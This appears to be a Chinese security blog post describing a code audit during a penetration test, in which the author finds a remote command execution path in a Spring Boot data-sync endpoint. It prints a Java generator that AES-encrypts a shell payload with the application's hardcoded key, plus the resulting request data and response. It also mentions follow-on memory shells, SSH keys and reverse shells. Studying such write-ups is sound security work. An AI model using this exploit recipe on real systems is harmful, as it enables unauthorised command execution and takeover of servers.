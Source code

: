 

# 记一次实战快速的代码审计 - 先知社区

记一次实战快速的代码审计

- - -

# 0x00 前记

最近的一次渗透项目中，获取到某系统的源码和系统管理员登录密码

[![](assets/1701678514-4e97d65b73d7c48c7a1d138d7c8555cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152630-9dc17b78-8e88-1.png)

# 0x01 快速审计

## 代码执行 1

通过项目结构，发现用的技术还是比较新的，整体架构是springboot+mybatis，fastjson等版本也是比较新，因为涉及到了公式计算、数据分析，所以还用到了Scala，个人对Scala语言只是简单的使用过，暂时略过

[![](assets/1701678514-08181037caa1bd8778c7bbd910684be5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152820-df370582-8e88-1.png)

[![](assets/1701678514-d8658b4de7058c80c69f33fd2b8a32f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129154755-9bc34768-8e8b-1.png)

根据审OA漏洞的经验，猜测公式计算可能存在漏洞，找到对应的接口，这里有个FlowScriptCompiler.getClass�(className�)，通过上下代码，发现还是挺麻烦的，首先需要先上传脚本规则文件，然后进行编译，最后再execute执行

这里尝试新增规则脚本，虽然后台返回成功信息，但是最后execute失败了，需要真实环境调试看看吧，暂时先不看这个点

[![](assets/1701678514-1387509d575042569b0bcff47d9c550d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152924-058822ca-8e89-1.png)

## 代码执行 2

通过全局搜索污点函数，发现存在ProcessBuilder命令执行的点�，这里可以执行命令，然后将结果使用convertStreamToStr方法�返回，可能可以造成回显RCE

[![](assets/1701678514-18d9adceb51605369c4b35d5c28e426c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153007-1eeb1402-8e89-1.png)  
往前搜索execute�方法，发现有三处地方使用到了  
[![](assets/1701678514-16829e75428fb1d66ec52fa09b95e195.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153034-2f3354aa-8e89-1.png)

第一处：先看这个/src/main/java/com/xxrule/flowrule/arch/EnvChecker.java#\_check，这里的方法，codeStr不可控  
[![](assets/1701678514-92f1fe7c7de2beedcc3c342484352958.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153152-5d47d672-8e89-1.png)

第二处：/src/main/java/com/xxrule/flowrule/utils/ProcessUtil.java#main，测试方法，同样不可控�  
[![](assets/1701678514-e4cb9eab557f23eee134d51fa262e39a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153224-708561c8-8e89-1.png)

剩下就只有/src/main/java/com/xxrule/data/service/impl/DepotSynchroServiceImpl.java

sync方法�接受一个DepotSynchroDto对象，然后使用DataStrUtil.deCryptAndDecode��（代码在下图）解密data数据，解密首先会使用base64进行解码，然后使用AES再解一次得到data对象

data对象用fastjson转成JSONObject的对象，然后判断�JSONObject是否存在sh的key，如果存在，继续解析sh对象下面的shells数组，最后使用�ProcessUtil.execute(sh, charset);�执行shell  
[![](assets/1701678514-e899b9d899608f83f8cb731e5191cef5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153330-9807738a-8e89-1.png)

deCryptAndDecode方法代码

[![](assets/1701678514-be7e6a87083538b666d148912dc40cd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153354-a5efe932-8e89-1.png)

实现类基本分析完了，我们继续搜索调用sync方法，发现有两处controller接口使用到这个方法

[![](assets/1701678514-dd6e74bc653be6f2f6c8a7df09e135f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153406-ad9da9b2-8e89-1.png)

第一处：/src/main/java/com/xxxrule/data/controller/DepotSynchroContorller.java#sync

[![](assets/1701678514-3a5b3621d5acf7eba37924a65d014c3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153439-c1238344-8e89-1.png)

第二处：/src/main/java/com/xxxrule/flowrule/controller/RuleSceneController.java#params

[![](assets/1701678514-d5b0d42907bea9b33e4a6a0648bcba07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153504-cfbe8cdc-8e89-1.png)

这两个地方都可以RCE，相对来说，sync接口没有那么多的条件判断，可以直接构造请求对象，写一个代码生成payload

```plain
import org.apache.commons.codec.binary.Base64;

import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import java.security.SecureRandom;

public class Test {
    public static void main(String[] args) throws Exception {


        //生成shell执行命令加密数据
        byte[] sourceBytes = enCryptAndEncode("{\n" +
                "  \"sh\": {\n" +
                "    \"shells\": [\n" +
                "      \"bash\",\n" +
                "      \"-c\",\n" +
                "      \"whoami \"\n" +
                "    ]\n" +
                "  },\n" +
                "  \"charset\": \"utf-8\"\n" +
                "}");
        System.out.println(Base64.encodeBase64String(sourceBytes));


        //解密数据包
        System.out.println((deCryptAndDecode("")));

    }

    /**
     * AES加密
     *
     * @param content
     * @return
     * @throws Exception
     */
    public static byte[] enCryptAndEncode(String content) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, desKey);
        return cipher.doFinal(content.getBytes("UTF-8"));
    }

    public static String deCryptAndDecode(String content) {
        byte[] targetBytes = Base64.decodeBase64(content);
        try {
            return deCryptAndDecode(targetBytes);
        } catch (Exception e) {
            return "";
        }
    }


    /**
     * AES解密
     *
     * @param src
     * @return
     * @throws Exception
     */
    public static String deCryptAndDecode(byte[] src) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, desKey);
        byte[] cByte = cipher.doFinal(src);
        return new String(cByte, "UTF-8");
    }
}
```

生成执行whomai命令的数据：ZOxX3QMOwuTSJlkTz5LWdF3Yb0ZFvIXFVb/Iqr5Eu9ysyYwlD/DokMU8g09jfQL0KsPIxO3HlF9SiOSTaVyCPsmIq7eJ7YGOTj9kvYnjFz235gn1jBu7WdC5Tb4wtrsNAXTzc1nZZv1xh0sTGlQgcg==

发送对应的数据包，返回的data是lBBVygQE6Te6euV1IGk/5WLTeEY4WW3o7LGCpYlGO8o=

[![](assets/1701678514-168660c0ded206a9eb92062143e87eff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129154410-1566c6d6-8e8b-1.png)

可以通过解密方法进行解密，返回数据是root，因为是SpringBoot项目，后续可以注入内存马、写ssh key、反弹shell等

[![](assets/1701678514-e1840023fc86af0ad76b6829d3c2a791.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153710-1b2de820-8e8a-1.png)

# 0x02 总结

1.  在项目时间短、任务重的情况下，代码审计还是得有耐心，不能放过每一个sink点，可以充分利用代码审计自动化工具，提升审计效率
2.  通过前端界面可以快速熟悉了解系统的功能特性，利用审计经验，可以猜测某些功能点可能存在漏洞
3.  一些行业会有到数据分析的业务需求，往往会使用Spark框架�、Scala语言、R语言...等进行数据处理，这一块可以尝试学习
